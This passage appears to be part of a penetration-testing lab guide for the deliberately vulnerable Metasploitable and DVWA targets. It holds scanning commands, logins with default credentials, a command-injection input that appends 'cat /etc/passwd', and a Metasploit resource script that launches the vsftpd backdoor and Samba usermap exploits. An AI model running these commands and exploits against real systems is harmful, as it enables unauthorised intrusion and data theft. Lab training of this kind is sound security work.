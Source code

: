 ### Phase 2: Vulnerability Assessment
```bash
# Vulnerability scanning
nmap --script vuln 172.21.0.3

# Web application scanning
nikto -h http://172.21.0.3
dirb http://172.21.0.3

# Service-specific scans
enum4linux 172.21.0.3
```

### Phase 3: Exploitation Examples

#### Easy Win - SSH Access
```bash
ssh msfadmin@172.21.0.3
# Password: msfadmin
# You now have shell access
```

#### Web Exploitation - Command Injection
```bash
# Access DVWA
# Navigate to: http://172.21.0.3/dvwa/
# Login: admin/password
# Go to Command Injection
# Input: 127.0.0.1; cat /etc/passwd
```

#### Database Exploitation
```bash
mysql -h 172.21.0.3 -u root
# No password required
# You can now access all databases
```

## Advanced Exploitation Scripts

### Automated Metasploit Script
```bash
# Create resource script
cat > metasploitable_auto.rc << EOF
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.21.0.3
run

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.21.0.3
exploit -j

use exploit/multi/samba/usermap_script
set RHOSTS 172.21.0.3
exploit -j

use auxiliary/scanner/mysql/mysql_login
set RHOSTS 172.21.0.3
set BLANK_PASSWORDS true
run
EOF

# Run the script
msfconsole -r metasploitable_auto.rc
```